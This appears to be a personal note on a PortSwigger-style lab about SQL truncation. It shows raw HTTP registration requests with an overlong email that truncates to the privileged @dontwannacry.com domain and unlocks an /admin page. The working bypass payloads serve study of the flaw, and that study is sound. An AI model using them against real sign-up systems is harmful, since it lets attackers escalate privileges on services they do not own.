 >[!summary]
>SQL truncation vulnerabilities occurs when the client, the server and the DBMS do not check consistently the length of user supplied input, resulting in the truncated storage of user input in the db caused by the laxed control of length by the server.

## Attack scenario

>[!info]
>A `/admin` endpoint exists but it's only accessible to users registered with the `@dontwannacry.com` email.

Registered a very long email:

```http
POST /register HTTP/1.1
Host: 0ad900c0033fdf32c106126b00ca004e.web-security-academy.net
Cookie: session=DHhTkd6GdW1WG2iHWcOKYTJr0BxrtZ0k
Content-Length: 148
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Connection: close

csrf=ecMNuZwDTSwGRsTGYvax1gXj8eiUugs7&username=user1&email=attacker%40aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.exploit-0a1800410308dfc1c12711a401170067.exploit-server.net&password=user1
```

Email has been truncated inside the db:

![](zzz_res/attachments/SQL-truncation1.png)
>[!note]-
>Email length is 255

Generated a very long email address that once truncated resulted in a different domain email:
attacker@aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbbbbbbbbbbbb.dontwannacry.com.exploit-0a1800410308dfc1c12711a401170067.exploit-server.net

Truncated result (255 lenght):
attacker@aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbbbbbbbbbbbb.dontwannacry.com

```http
POST /register HTTP/1.1
Host: 0ad900c0033fdf32c106126b00ca004e.web-security-academy.net
Cookie: session=5WIV520lP76FYcL229hV4EhNJCWAOUbc
Content-Length: 389
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Connection: close

csrf=hthHgzrgwAoViTeeWlwYBUF3Uwbkcsdk&username=user2&email=attacker@aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbbbbbbbbbbbb.dontwannacry.com.exploit-0a1800410308dfc1c12711a401170067.exploit-server.net&password=user2
```

![](zzz_res/attachments/SQL-truncation2.png)

Accessed the restricted area:

![](zzz_res/attachments/SQL-truncation3.png)